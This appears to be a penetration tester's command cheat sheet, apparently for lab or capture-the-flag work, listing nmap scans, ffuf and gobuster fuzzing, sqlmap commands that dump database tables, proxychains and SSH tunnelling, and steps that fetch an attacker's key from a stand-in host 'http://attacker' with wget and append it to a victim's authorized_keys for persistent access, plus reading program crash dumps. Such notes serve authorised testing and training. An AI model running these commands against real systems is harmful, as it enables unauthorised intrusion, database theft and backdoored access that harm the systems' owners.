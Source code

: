 nmap
---
1. `nmap -sSV -Pn -p- -A <target>`
2. `nmap -sU -v <target> --min-rate=50`

Sub-domain Enum
---
1. `ffuf -w SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/' -H 'HOST: FUZZ.website.com' -fs 2309`
3. `python3 sublist3r -d <domain>`

Sub-Directoy Enum
---
1. `ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/FUZZ" -recursion -recursion-depth 1 -e .php`
2. `gobuster dir -x php,txt -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt`

Parameter Fuzzing
---
1. `ffuf -w SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`
2. `ffuf -w SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://<SERVER_IP>:<PORT>/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

Page Type Fuzzing
---
1. `ffuf -w SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/indexFUZZ"`

SQLmap
---
- GET: `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php?id=1"`
- POST: `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1"`
- Cookies: `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --cookie="id=1*"`
- JSON:  `Copy Request Headers --> req.txt; add in the JSON with "" surrounding the variables; sqlmap -r req.txt`


1. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" --dbs`
2. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" -D <database> --tables`
3. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" -D <database> -T <table> --dump`
4. 3. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" -D <database> -T <table> -C <column> --dump`

`--flush-session` to start again

`--no-cast` to ensure correct data is gotten from blind sql

`--risk=3` for more aggressive SQLi detection

manually specify number of union columns with `--union-cols=n`

Proxy chains
---
```
edit /etc/proxychains4.conf 

examples:
http <ip> <port>
socks5 <victim service> <victim port> <user> <password>

$ proxychains ssh user@<ip>
```

SSH port forwarding
---

append your pub key to `/home/user/.ssh/authorized_keys`

On your attacker machine:

`ssh -L <local port>:<victim service>:<victim port> <victim>@<ip>`

OR using dynamic forwarding for attacks

`ssh -D <local port> <victim>@<ip>`


Adding your SSH to the victim
---

Append your public to the victim's ~/.ssh/authorized_keys

```
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

Getting Crash Data
---

While program is running, kill it with

```
kill -BUS <pid>

Get the data from the crash log
---
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crashed
strings /tmp/crashed/CoreDump
```

Other stuff
---
- Check SSL cert
- Check email domains
- Check 404 pages
- Try both `/tmp` and `/dev/shm` for file writes
